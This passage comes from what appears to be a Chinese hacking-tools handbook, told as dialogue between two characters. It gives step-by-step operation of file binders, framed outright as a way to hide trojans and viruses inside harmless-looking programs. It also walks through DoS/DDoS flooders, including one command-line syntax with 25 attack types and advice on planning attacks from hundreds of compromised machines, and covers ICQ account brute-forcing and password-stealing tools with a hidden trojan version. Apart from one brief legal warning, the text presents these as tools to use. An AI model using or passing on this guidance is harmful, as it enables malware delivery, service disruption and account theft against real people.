再看从命令行的安装方法。把软件上载到主机可执行目录内，然后从命令提示符下操作。操作方法如下：

```text
安装服务：SkSockServer.exe -install
删除服务：SkSockServer.exe -remove
启动服务：net start skserver
停止服务：net stop skserver
配置参数：SkSockServer -config [...]
```

> 阿瓜小注：配置参数的意思就是说你可以在命令行方式下完成同在图形界面下一样的配置工作。如果你用命令行方式感到方便的话，也可以用这个方式配置。

橙哥：“有了代理跳板后，在使用前面介绍的扫描、轰炸、密码探测等工具时，就可以设置为以代理方式进行，这样在你进行各种活动时，对方主机即使察觉到有入侵，也很难清楚真正的入侵者是你。”

阿瓜：“我知道。”

橙哥：“你知道？我怎么知道你知道，你要是早告诉我你知道，那么我就不会以为你不知道，说出来你又说你知道了。”

> 阿瓜悟道：用兵之道，在于一个“诡”字，无人知我之虚实则必胜！

## 捆绑整合

## ——结合工具的佳作


## 9.1 常用合并工具

所谓功能纯正型，是指这类工具只是实现文件的合并，没其他害人的功能。这只是随便一说，其实大多都是文件合并工具，目的是一样的。

### 9.1.1 开山文件合并器

“开山文件合并器”3.0版新增了压缩功能，合并后的文件会自动进行压缩，使合并后的文件更小。对于一般的.EXE文件压缩率高达50%以上，专用于将任意多个文件（包括图片、文本文件等）合并为一个.EXE文件，图标可以任意指定，执行合并后的那个文件，就相当于同时执行了合并前的那些文件。

看一下使用界面，如图9-1-1所示。


图9-1-1 开山文件合并器

**功能简介：** 开山文件合并器专用于将数个文件合并为一个文件。可以自己指定合并后文件的图标，你可以任意指定一个包含图标的文件，支持.EXE、.DLL、.ICO、.OCX、.CPL、.BMP以及其它所有包含图标的文件，自动取得其中包含的所有图标，然后你可以在其中选择需要的那个图标作为合并后目标文件的图标，默认的图标是你选择的第一个文件包含的第一个图标，如果该文件没有包含任何图标，而你又没有更改合并后的图标，则采用 JPG 图片的图标（默认的）作为合并后文件的图标。可以合并任何类型的文件，可以是图片、文本文件、媒体文件、音频文件、MP3以及其它任何文件，生成的目标文件为EXE文件。

> 阿瓜小注：结合工具主要的用途是可以把木马和病毒隐藏起来，在神不知鬼不觉的情况下执行。

下面看一下操作方法。操作方法很简单。点“+”按钮，弹出选择文件对话框，如图9-1-2所示。

选择要结合的文件，例如木马服务端，当然还要选择其它文件。重复此步，可以选择任意多文件。

添加完毕后，设置图标。点击“更改图标”按钮，出现图9-1-3窗口：


图9-1-2 选择文件

图9-1-3 选择程序要显示的图标

选择好图标后，点确定，回到主界面。再点合并，弹出如图9-1-4窗口。


图9-1-4 存放文件

确定文件存放的位置和名称，然后确定。OK，文件合并完毕。文件压缩后体积不大，效果很好。

> 阿瓜小注：用这个软件压缩可执行文件，文件总体积减小；但是压缩其它格式文件或混合压缩则体积可能变大。


### 9.1.2 文件捆绑专家

这也是一个文件捆绑器，与上一个软件相比特点是不但可以捆绑，而且可以松绑。软件界面如图9-1-5所示。


图9-1-5 文件捆绑专家

**功能简介：**

- 1. 加入的所有文件将被压缩和加密处理，并捆绑到所指定的磁盘文件，输出结果为一个可执行的（.exe）文件，可执行文件头长度为28K；
- 2. 快速的文件捆绑过程；
- 3. 快速的解开过程，如果对单一文件或较小文件进行捆绑处理，捆绑前后的打开速度极其接近；
- 4. 图标修改功能，可自行设定输出文件的默认图标，图标文件可从指定的.EXE、.DLL、.ICO、.OCX、.CPL、.BMP或任何包含图标的文件中自动获取；
- 5. 如果被捆绑对象为可执行文件，依次执行完成后，将自动删除；其它文件（如文本文档）将存留在捆绑时所指定的临时交换目录中（如c:\windows\temp），你可在这些目录中找到它们；
- 6. 支持文件拖放，你可以直接将桌面上或当前打开的文件窗口中的文件拖放到加入的文件列表框中；
- 7. 新版本增加反捆绑功能，你可以打开并查看一个已经存在的捆绑文件；
- 8. 双击结果列表中的当前选定项，可以启用默认相关的查看程序打开它。使用方法基本与上一个相同，不再赘述。


图9-1-6 文件松绑

看一下松绑的方法。很简单，如图9-1-6所示，选择要松绑的文件，则在下面自动出现文件列表信息。选择完毕，点确定。

> 阿瓜小注：只支持松绑本软件结合得到的文件，自己的孩子自己爱啊！

## 9.2 其他同类

再列举几个软件，大家熟悉一下。

### 9.2.1 EXEBinder

本软件可以把两个可执行程序捆绑成一个程序，执行捆绑后的程序就等于同时执行了两个程序。而且它会自动更改图标，使捆绑后的程序和捆绑前的程序图标一样，做到天衣无缝，并且可以自动删除运行时导出的程序文件。还可以把你的程序和其它软件捆绑起来，使你的程序悄悄地运行。

> 阿瓜乱语：看来这类软件都是一样的，一知而百知啊！

软件界面如图9-2-1所示。


可以看出来这个软件只支持可执行软件的合并，而且支持两个软件的压缩。似乎功能没有前面介绍的强。

使用方法很简单：运行软件后，单击“可执行文件1”按钮，选择一个程序（如C:\Windows\Notepad.exe），再单击“可执行文件2”按钮，选择另一个程序（如某远程控制软件的服务端程序D:\Server.exe），然后再单击“目标文件”为生成的捆绑好的文件选择一个路径及文件名（如D:\Notepad.exe），最后单击“捆绑”按钮即可。运行D:\Notepad.exe即等于同时运行C:\Windows\Notepad.exe与D:\Server.exe两个程序。

下面看一个画面精致一点的。

### 9.2.2 GWBinder2002

这是国货，广外女生出品，大家还都记得“广外女生”那个木马吧，这个软件是系列产品之一。

> 榕哥乱语：现在这些编程客软件的人也在创品牌，往往一弄就是一个系列，各类工具都有，弄得现在百家争鸣，新软辈出，叫人眼花缭乱，神志不清。

软件界面如图9-2-2所示。


图9-2-2 GWBinder

这个软件对绑定文件没有个数限制。功能和前面差不多。

下面看一下使用方法。

在表格上点右键，出现如图9-2-3界面。


图9-2-3 使用方法

选择其中的添加绑定文件，弹出“打开”对话框。选择要绑定的文件，确定。重复以上步骤，直到全部文件添加完毕，如图9-2-4所示。


图9-2-4 选择文件

在“设置”下拉菜单中选择“选择图标”，弹出“选择图标”对话框，如图9-2-5所示。


图9-2-5 添加图标

点“选择图标”对话框中的“浏览”选项，弹出“打开”对话框。选择图标文件，然后确定。回到主界面，点“文件”下拉菜单中的“开始绑定”选项，弹出一个“保存”对话框，在这里设置保存文件路径和名称。确定之后，即可生成。如图9-2-6所示。


图9-2-6 开始绑定

下面看一个有点意思的软件。

### 9.2.3 GIFHIDE

这个软件很特别，它可把EXE文件或者ZIP文件隐藏到GIF文件中，而GIF图像还可以正常显示，唯一遗憾就是文件不能大于20K。

软件解压后包含如图9-2-7所示六个程序：

其中，HIDE是结合程序，SEEK是拆散程序。结合程序的用法是在命令提示符下输入：

```text
hide infile.ext mygif.gif [KEY]
```

其中[KEY]为长度小于8的字符串。

> 阿瓜：“这东西我看用处不大，如果改进改进，能让人在看图片的时候就神不知鬼不觉地执行各种木马、病毒、后门、键盘记录的程序，那才叫绝呢！”

榕哥：“我看这类工具没什么好说的了，咱们还是下课吧！”

阿瓜：“好的，正好我回去可以研究一下其它的工具，比如——结婚工具。”


图9-2-7 GIFHIDE

> 阿瓜悟道：问世间情为何物？你中有我，我中有你，直到你既是我，我即是你，再也不分你我，这才叫珠联璧合啊！

## 第十章 群起而攻

## ——拒绝服务工具的手段


> “你知道被一个人打和被一群人打的区别吗？”

“好像后者的结局会更惨。”

“那你知不知道在黑客工具中就有一种群殴工具，威力无比，声势骇人……”

“莫非就是前面介绍的‘炸弹’不成？”

“否，非若是也。这种群殴工具虽然说和‘炸弹’实现的是相同的目的，但是它的威力比起‘炸弹’来要高出好多层次，它的威力是成千上百个炸弹威力的总和！”

“哇，这么厉害，那么这种威力无比的东西到底叫做什么东西呢？”

一道闪电划过夜空，紧跟着响起一声惊雷。

“它就是——拒——绝——服——务——工——具！！！”

……

阿瓜揉了揉鼻子，问道：“榕哥，咱们有必要弄得这么神秘吗？不就是一个简单的拒绝服务工具吗？虽然说我用得不多，但是也知道这种东西现在市面上很多的，而且每天都有新货上市，也算流行商品了，我想大家都知道一些的，我们何必弄得大家心惊胆战，一头雾水呢？”

榕哥敲了一下“回车”，漫不经心地说道：“你懂什么？没有点震撼力怎么能引起大家的注意啊，没看见电视里广告的阵势都很壮观吗？笨！一点想象力都没有！亏了跟我这么久，也不知道有点长进。”

阿瓜嘟咕：“谁说我没长进，没有我的配合，能有上面的效果吗？哼！”

榕哥：“为了避免大家误会，再解释一下。DoS（拒绝服务）攻击是目前黑客常用的攻击手法，由于可以通过使用一些公开的软件进行攻击，它的发动较为简单，同时要防止这种攻击又非常困难。DoS全称是 Denial of Service，中文意思是拒绝服务攻击。这种攻击行动使网站服务器充斥大量要求回复的信息，消耗网络带宽或系统资源，导致网络或系统不胜负荷以至于瘫痪而停止提供正常的网络服务。”

“拒绝服务”的攻击方式为：用户传送众多要求确认的信息到服务器，使服务器里充斥着这种无用的信息。所有的信息都有需回复的虚假地址，以至于当服务器试图回传时，却无法找到用户。服务器于是暂时等待，有时超过一分钟，然后再切断连接。服务器切断连接时，黑客再度传送新一批需要确认的信息，这个过程周而复始，最终导致服务器无法动弹，瘫痪停止，从而不能对别的正常请求提供服务。

“拒绝服务”袭击的步骤是这样的：首先是侵入大型互联网服务提供商的系统，建立服务器作为命令中心。然后，寻找该ISP客户的IP地址，并建立信息包，从该IP地址发送出去。其次是袭击另一网络中独立的计算机，并将它建成袭击管理机。一旦上网，这台管理机就开始攻击其它计算机，并把它们建成自动攻击节点。接下来会发生什么就由黑客决定了。有时为了收集信息，有时为了造成破坏。无论如何，命令中心的地址很难被发现，因此黑客就可以隐藏自己。”

## 10.1 分布式拒绝服务攻击

分布式拒绝服务攻击（DDoS）是一种特殊形式的拒绝服务攻击。它是利用多台已经被攻击者所控制的机器对某一台单机发起攻击，在带宽相当的情况下，被攻击的主机很容易失去反应能力。作为一种分布、协作的大规模攻击方式，分布式拒绝服务攻击（DDoS）主要瞄准比较大的站点，像商业公司、搜索引擎和政府部门的站点。由于它通过利用一批受控制的机器向一台主机发起攻击，来势迅猛，而且往往令人难以防备，因此具有极大的破坏性。

利用DDoS攻击是有一定难度的，没有高超的技术很难实现，因为不但要求攻击者熟悉入侵的技术，而且还要有足够的时间和脑力。攻击操纵者需要攻击并控制许多互联网上的傀儡计算机，恶意地发出大量欺骗、伪造的网络访问流量，相当于近千万人同时访问一个网站，严重影响了目标网站网络业务的正常运行，危害互联网安全。由于这种攻击具有极大的欺骗性、隐蔽性，国内外一直都很难追捕到真实的攻击者。

这类攻击有现成的工具可以使用。我们看一下这类软件例子。

> 榕哥警语：这类工具的威力奇大，针对国内网站攻击将严重触犯国家法律，大家切莫玩火自焚！！！

### 10.1.1 DDoSPing

这里介绍的是DDoS Ping V2.00最新版，它可以对一连串的网络主机和服务器进行查询指令攻击，同时支持4种不同的连接速度，可以自行设定每秒传送封包的多少。没有安装最新修正档的服务器必死。

软件的使用界面如图10-1-1所示。在最上面的“Start IP Address”后面填写要攻击的开始IP地址，在“End IP Address”后面填写结束IP地址。


图10-1-1 DDoSPing

在图10-1-2中设置攻击的速度。需要根据你使用的上网方式设定，如果是拨号上网，则滑块在“Modem”所在的范围内调整。如果是通过局域网上网，则可以在“LAN”所在范围内调整滑块。


图10-1-2 速度控制

如果扫描到漏洞主机后，将会在框内显示出该机地址，扫描结束后，可以用“Save List”按钮把这些地址保存为列表文件的形式。“Status”中显示的是当前的状态。如图10-1-3所示。


图10-1-3 状态显示

榕哥：“阿瓜，你知道拒绝服务攻击的原理吗？”

阿瓜：“榕哥，有必要知道吗？会用工具不就行了吗？”

榕哥摇摇头，说：“其它的工具可以不懂原理，但是这类工具不行。如果你不明白你正在做的事情是什么，你怎么能把它做好呢？而且要使用这类工具，许多概念都是和攻击的原理相联系的，如果不明白这些，你连设置参数都不知道怎么设。”

阿瓜：“哦，原来如此。那你就说来听听。”

榕哥：“好的，下面简单了解一下。”

“了解拒绝服务攻击的原理首先要明白什么是TCP协议。TCP协议（Transport Control Protocol）又称为传输控制协议，它是一种面向连接的、可靠的传输层协议。面向连接是指一次正常的TCP传输需要通过在TCP客户端和TCP服务端建立特定的虚电路连接来完成，该过程通常被称为‘三次握手’。举个例子，你要访问一个网站，那么你的电脑和这个网站建立连接的过程就是‘三次握手’的过程，你的电脑就是客户端，而你所要访问的网站就是服务端。所谓‘三次握手’是指：第一次握手，是客户端向服务端提出连接的请求，就是说你输入该网站的网址，请求连接；第二次握手，是服务端作出回应，确认收到客户端的请求，然后按照IP来源地址返回数据包（ISN）给客户端；第三次握手，是客户端确认收到服务端返回的数据包（ISN）。”

到此为止，客户端和服务端建立完整的TCP连接。通常情况下，服务端的操作系统会使用一块限定的内存来处理TCP连接请求，这个限定的内存被称为TCP缓存（TCP BACKLOG），它实际上是用于处理进站（INBOUND）连接请求的一个队列。如果这个缓存队列被填满，除非可以及时处理队列中的项目，否则任何其它新的TCP连接请求都会被丢弃。

阿瓜：“不太容易明白！继续说吧。”

榕哥喝了口茶，说道：“DoS攻击就是利用了这种TCP/IP协议本身的薄弱环节发动的。当发动攻击的时候，客户端的来源，也就是黑客，用一个伪造的IP地址向服务端发出请求。由于它的IP地址是假的，因此在第二次握手时，服务端无法把自身系统的数据包返回原来的IP地址。于是，服务端无法通过TCP三次握手来与客户端建立连接。但是，服务端却会不断地尝试一直到超时为止。”

发动攻击的主机只要发送较少的、来源地址经过伪装的连接请求到目标主机，将目标主机的TCP缓存队列填满，就可以实施一次成功的攻击。而实际上，发动攻击时往往是持续而且高速的。我们可以打个比方，把服务端（目标网站）看成一个公司，这个公司有100条电话线可以接入电话。当攻击者要发动攻击时，他利用100台电话同时不断地打这个公司的电话，把这个公司的所有电话线都占满，导致该公司的电话线路无法进行正常的服务。这就类似于我们所说的DoS攻击的一种简单的模式。这种DoS攻击，攻击者可以通过假的IP地址有效地隐藏自己，但对目的主机来说，无法判断攻击的真正来源，从而不能采取有效的防御措施。”

阿瓜：“好像有点明白了。”

榕哥又喝了口茶，继续说道：“这类攻击可以分为SYN Flood、Windows OOB Attack、PING DOS Attack、IP Spoof等类型，现在我们介绍的这个软件就是PING DOS Attack类型的攻击工具。我们看看如何设置。”

如图10-1-4所示，设置共包括四个部分，前面三个是三种攻击手法的设置。第一部分简单的设置方法是直接选择“Windows Defaults”或“UNIX Defaults”。“Windows Defaults”是针对Windows系统的默认设置，“UNIX Defaults”是针对UNIX系统的默认设置。可以根据要扫描的地址段中主机的操作系统类型进行选择。


阿瓜：“对于像我这样的菜鸟来说，我觉得一切默认是最好的选择，不是我不明白，实在是我懒得明白。”

OK，那么我们就一直默认。点击“OK”。

回到主界面，这时直接点“Start”按钮即可开始工作，如图10-1-5所示。


10-1-5 开始

阿瓜：“灵不灵啊？给个结果啊！”

榕哥：“灵不灵你自己试试不就知道啦！不过，出了什么事我可不负责任。”

上面这个软件只是热身，下面介绍更能体现分布式拒绝服务攻击软件精神的软件。

## 10.1.2 DDoS—Fukcnet

DDoS之Fukcnet是新出的一个国产的拒绝服务攻击工具，是一个纯粹的DDoS攻击工具，除了一些常见的攻击方式外，加入了TCP的各种标志位的简单测试。

> 阿瓜小注：只能在WIN2000下运行。

这是一个命令行工具。如图10-1-6所示，其中Fukcnet.exe文件即为主程序。


10-1-6 DDoS-Fukcnet

直接在命令提示符下输入Fukcnet，然后回车，出现如图10-1-7界面。


10-1-7 程序提示


直接输入，程序提示您输入参数。后面是程序作者的一大段黑客宣言和广告。如果没有参数，这个软件是发挥不了作用的，那么参数是什么呢？请看下面。先看一下使用的命令格式。

```text
C:\>Fukcnet.exe argv[1]类型 argv[2]时间 argv[3]目标端口 argv[4]原IP argv[5]原Port
```

```text
例如 C:\>Fukcnet.exe 97 1 80 0.0.0.0 0
```

只有标记为（R）的才要输入原IP，其它所有类型请输入：原IP：0.0.0.0，原Port：0即可，也就是随机IP和Port。

阿瓜小注：为了安全起见，这是受限版本。目标IP已固定为：192.168.0.188。

上面所说的类型是指攻击的类型，具体内容如下：

- 类型 97 = //icmp —— flood
- 类型 98 = //icmp2（R）—— flood
- 类型 99 = //UDP —— flood
- 类型 100 = //FIN/ACK(seq1,ack1) —— flood
- 类型 101 = //SYN —— flood
- 类型 102 = //DNS2（R）—— flood
- 类型 103 = //DNS —— flood
- 类型 104 = //DRDOS（Syn/Ack）—— flood
- 类型 105 = //SYN/ACK(seq1,ack1) —— flood
- 类型 106 = //SYN/FIN(seq1,ack0) —— flood
- 类型 107 = //SYN/FIN(seq1,ack1) —— flood
- 类型 108 = //FIN/ACK(seq0,ack1) —— flood
- 类型 109 = //FIN(seq1,ack1) —— flood
- 类型 110 = //ACK(seq1,ack1) —— flood
- 类型 111 = //ACK(seq1,ack0) —— flood
- 类型 112 = //RST/ACK(seq0,ack1) —— flood
- 类型 113 = //RST(seq0,ack0) —— flood
- 类型 114 = //RST(seq1,ack1) —— flood
- 类型 115 = //NULL(seq1,ack1) —— flood
- 类型 116 = //NULL(seq0,ack0) —— flood
- 类型 117 = //NULL(seq1,ack0) —— flood
- 类型 118 = //F&S&R&A&U(seq1,ack0) —— flood
- 类型 119 = //F&S&R&A&U(seq1,ack1) —— flood
- 类型 120 = //F&S&R&A&U(seq0,ack0) —— flood
- 类型 121 = //SYN(2)(URG=1000-65001) flood

其中（R）的意思是可以指定原IP，（其实，最好的所谓反射攻击应该是尽量向少数反射主机发SYN报文，如果可能，最好一对一，和Synflood相比力度有所减弱，但它能很好地防范一些过滤检测等）。其中（seq1、ack1）的意思是seq和ack号都存在，而（seq1、ack0）只有seq号，ack号为零……其中SYN/ACK、SYN/FIN、FIN/ACK的意思是各种TCP标志位。

综上表，Fukcnet.exe可分为几种类型的攻击：

- 1. **ICMP攻击**，报文定在1k。
- 2. **UDP攻击**，报文定在1k。
- 3. **TCP类攻击**，其中，比如有Synflood（也就是类型101），Synflood（2）加了一个urg紧急数据标志（也就是类型121），以及各种标志置位……
- 4. **DNS攻击**，其方式是模拟一次合法的DNS请求包，且伪装源IP，猛烈Flood受害主机DNS服务，向受害主机以每秒1万到2万的速度解析各种域名，使其瘫痪。

当一切其它手段（溢出、各种现有的漏洞、社交工程学的欺骗等等）都不能对敌方构成攻击时，真正有效且唯一的手段就是大规模DDoS（我的主张是：最少也要过百），有时说它是Hacker以及网络的终极核武一点也不为过，真正的DDoS一定是具备Internet战争的倾向，这真是——“网络恐怖主义”！

一次DDoS的全面启动要根据敌方具体情况而定（比如一些基本情况：有无集群，地图上的物理位置，防火墙的简单情况，对ttl、win、seq、TCP->FLAGS不合法的等是否过滤，大概带宽，及其每日WEB在相对最高峰的承受力，探测模拟发送攻击数据包，观其反应程度，往返时间等……还有，有些肉鸡限制一些IP段的访问，你以为在攻击，其实，一个也没出去。还有，对于反射式，一定要明确DoS-Server伪装的敌方主机IP是否可发送出去，有些Server不能够伪装一些IP段的IP发送出站……选择好攻击方式，及时……因为毕竟要动用成百DoS-Server，所以要制定好作战计划。

### 10.1.3 HTTP Bomber

HTTP Bomber V1.001b是2000年制作的DDoS程序，可以选择使用代理服务器进行攻击，攻击手法分为Normal（支持乱线攻击和POST请求攻击），会自动统计攻击次数和输出体积。

这个软件的用法很简单。直接写上要攻击的地址，选择攻击类型后，直接按下“Start”按钮即可开始，如图10-1-8所示。


10-1-8 HTTP Bomber

当然要实现分布式的效果，必须要联合大批人手，同时动手，才会有效果。这个工具的一个特点是可以使用代理功能。

阿瓜：“呵呵，这回用到前面介绍的代理工具了。”

榕哥：“对，用前面提过的代理工具弄几个代理地址，然后就可以使用代理方式攻击了。”

方法是这样的。如图10-1-9所示，首先把代理服务器地址和端口号填好，填对。千万要选上“Use Proxy”选项。就是这样，代理功能设置完毕。


其实更好的分布式攻击软件应该是有服务端和客户端两个部分，服务端安装在各个傀儡主机上，通过客户端对服务端发出命令，使得成千上百的服务端同时对某一目标主机发起拒绝服务攻击……这种震撼力绝对惊人。但是这样做的后果也是同样吓人。

下面看一个专门的UDP攻击工具，这个工具和前面介绍的DDoSPing有相同的接口。

### 10.1.4 UDP Flooder

UDP Flooder V2.00最新版本同DDoS Ping一样接口，可以设定封包的内容，支持UDP传送，可以用来测试服务器安全性。

软件界面如图10-1-10所示。


很熟悉的使用界面。上面的部分不用说了，该填什么就填什么。下面部分是设置发送的数据，如图10-1-11所示。


10-1-11 设置数据

有三种方式可以选择：随机、文本、文件。

阿瓜：“有什么区别吗？”

榕哥：“区别当然有啦！选用随机方式，你就不用动脑子考虑设置多少数据了；选择文本方式，可以自己填写特定的数据；选用来自文件方式，可以使用大量的文本。”

阿瓜：“就这些？”

榕哥：“那你说还有什么？”

阿瓜：“也许还有别的吧？我想……”

榕哥：“你先想吧。我去睡一觉。”

阿瓜：“岂有此理！我一认真考虑问题，榕哥就不耐烦，为什么呢？我想一想……”

……

设置完毕后，没什么好说的了，GO，GO，GO！世界为你沸腾！

## 10.2 其他DoS工具

榕哥：“你虽然见识了几个DDoS的工具，但是我觉得你对DoS的攻击类型未必很了解。毕竟几个工具不能把方方面面都涉及到。”

阿瓜：“我觉得是有点意犹未尽。你给我详细介绍一下吧！”

榕哥：“这个嘛……”

阿瓜一愣神，猛然反应过来，转身急奔，几秒钟后，一杯冰凉爽口的饮料已到了榕哥手中。

榕哥慢饮一口，整理了一下思路，开出下列清单。

- 1. SYN FLOOD

利用服务器的连接缓冲区（Backlog Queue），利用特殊的程序，设置TCP的Header，向服务器端不断地成倍发送只有SYN标志的TCP连接请求。当服务器接收的时候，都认为是没有建立起来的连接请求，于是为这些请求建立会话，排到缓冲区队列中。如果你的SYN请求超过了服务器能容纳的限度，缓冲区队列满，那么服务器就不再接收新的请求了。其他合法用户的连接都被拒绝掉。可以持续你的SYN请求发送，直到缓冲区中都是你的只有SYN标志的请求。

阿瓜嘀咕：现在有很多实施SYN FLOOD的工具啊，你想知道吗？自己找找啊！

- 2. IP欺骗DoS攻击

送合法数据，服务器就已经没有这样的连接了，该用户就必须重新开始建立连接。攻击时，伪造大量的IP地址，向目标发送RST数据，使服务器不对合法用户服务。

- 3. 带宽DoS攻击

如果你的连接带宽足够大而服务器又不是很大，你可以发送请求，来消耗服务器的缓冲区，消耗服务器的带宽。这种攻击就是人多力量大了，配合上SYN一起实施DoS，威力巨大。不过是初级DoS攻击。

- 4. 自身消耗的DoS攻击

这是一种老式的攻击手法。说老式，是因为老式的系统有这样的自身BUG。比如Win95（winsock v1）、Cisco IOS v.10.x和其它过时的系统。

这种DoS攻击就是把请求客户端IP和端口弄成主机的IP和端口相同，发送给主机。使得主机给自己发送TCP请求和连接。这种主机的漏洞会很快把资源消耗光，直接导致当机。这种伪装对一些身份认证系统还是威胁巨大的。

上面这些实施DoS攻击的手段最主要的就是构造需要的TCP数据，充分利用TCP协议。这些攻击方法都是建立在TCP基础上的。其实这种消耗性的拒绝服务攻击本身就是非常难对付的，理论上这是没有办法克服的安全问题，任何主机的网络资源都是有限的，只要这些有限的资源被消耗掉，总是能够造成网络堵塞。正常访问要么速度缓慢，要么根本就没有办法访问。

> 榕哥慢饮一口，说道：“我们上面介绍的工具基本上都包含在这几种类型中了。”

> 阿瓜：“但是，好像不是很全啊！我们是不是应该再看几个其它的，好增加一些感性认识呢？”

> 榕哥：“好想法。”

### 10.2.1 狂怒之PING

狂怒之Ping结合Ping of Death和Ping Flood两种攻击方式，使用多线程对同一个IP进行洪水+POD攻击。如果你速度够快，对方可能在短时间内网络瘫痪。

软件的使用界面如图10-2-1所示。


10-2-1 狂怒之PING

下面是关于这个软件的一些技术指标：

- DNS转换IP：支持
- 多线程技术：支持
- 内置线程数：10（5 Ext[USER] 5 Int[Fixed Target]）
- 多个数据包同时攻击：支持
- 最大同时攻击数量：5 × ICMP Packet
- IP碎片：64字节乱序字符
- 可扩充：是
- Fake IP：不支持
- 肉鸡攻击：支持
- IP碎片调节：有
- IP碎片取值范围：64—6400 step 64（99级调节，每64字节为一个级别）

使用之前要填上目标IP的地址。调整IP碎片的大小（拖动滑块即可调整）。按照惯例，值越大威力越强。

设定完毕，开始攻击。如图10-2-2所示。


图中有一个“肉鸡攻击用”按钮，这个按钮是为了实现在肉鸡上执行本程序时的隐藏性设计的。“肉鸡”的意思就是已经被你入侵并得到使用权限的电脑。

点击此按钮，程序界面将会消失，当然这个程序并没停止运行。在Windows任务管理器中可以看到正在运行的这个程序，如图10-2-3所示。


阿瓜：“看起来有点像前面介绍的攻击工具。”

榕哥：“差不多，两类软件实现的最终目的是一样的。但是方法上有些区别。而且DoS工具威力更强。”

### 10.2.2 connection_reset

Connection Reset V1.0 ICMP攻击包含17种攻击程序，可以有选择地攻击计算机和服务器，并支持端口乱线轰炸。

软件的界面如图10-2-4所示。


10-2-4 CONNECTION_RESET

这个软件支持17种攻击程序，下面列表是其中一部分，如图10-2-5所示。


10-2-5 部分攻击方式

选择攻击方式，填写地址、端口后，按下“SenD ReseT”按钮，程序开始工作。其中“SerVeR”地址框是填写目标地址的。

阿瓜：“知道啦。嗯，这么多攻击方式，不知道有多少有用的……”

### 10.2.3 IIScrasher

IIScrasher支持服务器数据查询功能，进行DDoS攻击IIS。

阿瓜：“其实很多软件都不是单纯地实现某一个功能，而是实现相关的几个功能，比如说……反正是很多了，就像这个软件，能进行DDoS攻击就行了呗，偏偏又支持服务器数据查询功能，有什么用啊！纯粹是浪费资源，要查询服务器数据可以用的软件不多得很吗？这是大家都知道的事情，我也不多说了。不过我们既然要谈论黑客兵器谱，自然各种各样的兵器都要见识一下。所以看看也无妨，我觉得。”

软件的界面如图10-2-6所示。

默认的服务器地址（目标地址）是www.microsoft.com（呵呵，树大招风！）。看一下它检测服务器的功能，按下“Server Type”按钮。下面文本框内出现服务器信息，如图10-2-7所示。


10-2-6 IIScrasher


10-2-7 检测服务器的信息

可以看到这个功能很正常。那么我们按下“Crasher Server”按钮会有什么反应呢？

当然是什么反应都没有，因为像微软官方网站这样强大的服务器，这点攻击就像一块小石子投向大海，根本不能激起浪花。要想激起滔天巨浪，就要发挥分布式的精神，多人联手，才有效果。

> 何况话道：武功再高强，若陷千军万马中，也是毫无办法的。力量的强大就在于数量的多少，绝对的多数是绝对的强。万蚁之众，即可食象！

## 第十一章 语无伦次

—— ICQ&IRC工具的支持


说道聊天工具，在国内目前的情况下，QQ绝对是主力，但是到目前为止，网龄在5年以上的想必都用过另一个聊天工具ICQ。ICQ是早于QQ出现的聊天工具，QQ最初也是借鉴ICQ的模式发展起来的，直到现在，使用ICQ的人也是多如牛毛，甚至比使用QQ的人更多——在全世界范围内。国际最流行的聊天工具非ICQ莫属，就是国内，使用ICQ的人也不少。

IRC也是一种聊天方式，这种聊天方式在大众中不太流行，但是在早期的黑客人群中，这种聊天方式却是最广泛的。

本章所涉及的内容就是关于这两种聊天工具的方方面面。

至于为什么不谈QQ，一是因为在本书的姐妹篇《傻瓜黑客》中已经讨论过，二是因为QQ工具更新太快，就像在竞赛一样，QQ的开发者不断更新升级，摆脱各种破解、盗密、攻击软件的纠缠，而破坏者也在不断进步，各种解密、盗密、攻击黑软层出不穷。在这个不断滚动前进的时代中很难捕获某一个时间的断面来展示当今QQ类黑软的风采，所以，干脆舍去不谈。

## 11.1 ICQ工具

> 阿瓜：“这些天用ICQ聊了些洋MM，感觉真是不错。”

榕哥：“就你的英文水平，还能泡洋妞？别吹了，我虽然博学多才，英文优秀，也没泡过多少洋妞啊！唉！主要是没机会，那么多本地MM追我……”

阿瓜：“嘿嘿，我英文虽然差，但是基础总是有点的，再说正好利用聊天的机会锻炼一下，何乐而不为呢？”

榕哥：“有什么收获吗？”

阿瓜：“当然有了，熟悉了很多工具。又找回了当年刚开始用QQ聊天的感觉，那时的天是那么蓝，花儿是那么鲜艳……”

榕哥：“行了，别自我陶醉了。汇报一下你的研究成果吧！”

### 11.1.1 Icqfly

本程序是为ICQ爱好者扫号专用。现在市面上有很多扫QQ的东西，但是Tencent对这个已经做好了全面的准备，现在的扫号工具多已无能为力，校对密码的时间间隔越来越长，扫号的人越来越多，致使扫号的效率大大降低。但是ICQ没这个问题。ICQ号码也是从5位开始的，但是5位的密度不是很大，有一部分没有开放申请。6位、7位随便扫，只要你能摸透外国人用密码的习惯，可以得到很多号码。

软件解压后，包括如下七个程序，如图11-1-1所示。

各个程序的说明如下：

- ICQfly.exe：扫号的主程序。
- Icqfly+.exe：木马版主程序。
- out.txt：扫到的号和密码。
- number.txt：起始号码（第一行）和终止号码（第二行）。
- password.txt：密码列表，一行一个。

## 第十一章 言无不尽——ICQ&IRC工具的支持

readme.txt：说明文件。


### 11.1.1 ICQFLY

主程序的使用界面如图11-1-2所示：


11-1-2 主程序界面

很简单的界面，填上号码范围即可扫描。

> 阿瓜小注：1．考虑到效率问题，密码列表不要超过100个。2．某些局域网络内的机子暂时无法使用本软件。3．请保持 password.txt、out.txt、number.txt 放在主程序的同级目录下，如果丢失，可以自行建立，否则程序将无法运行。4．本程序支持断点续扫功能，不必担心停电什么的。

扫描之前需要设置号码范围和密码列表，设置方法如下：

号码范围在 number 文件内设置，如图11-1-3所示。


11-1-3 号码范围

密码列表在 password 文件内设置，如图11-1-4所示。


11-1-4 密码列表

对于木马版本（icqfly+.exe）请注意：一定是配置好 number.txt 以后再运行主程序，此版本程序运行时程序在后台秘密工作。

> 阿瓜：“远程窃取 ICQ 号比远程窃取 QQ 号要容易得多。最令人高兴的是 ICQ 没有密码保护，只要你扫到，登录，然后修改 E-mail，别人就提取不了了，少了很多后顾之忧。而且 ICQ 对扫号没有防备，登录间隔没有限制。所以，只要网速不是太慢，每秒 check 两个密码易如反掌。当然，如果是宽带的话，还可以多开几个，只要把那四个文件放在不同的目录下就可以了。呵呵，很爽的哟～～”

### 11.1.2 ICQPW

ICQ Password Grabber——ICQ 密码小偷 1.0，又是一个盗取 ICQ 密码的东西。打开界面如图11-1-5所示。


11-1-5 ICQPW

使用方法是这样的。

启动程序，填上你的 IP 地址，点击“Listen”，然后与 IP 文本框中显示地址所在的远方 ICQ 用户交谈。

- 在 ICQ Button → Preferences → Connections → Server（TAB）中设置：
- host：你的 IP 地址
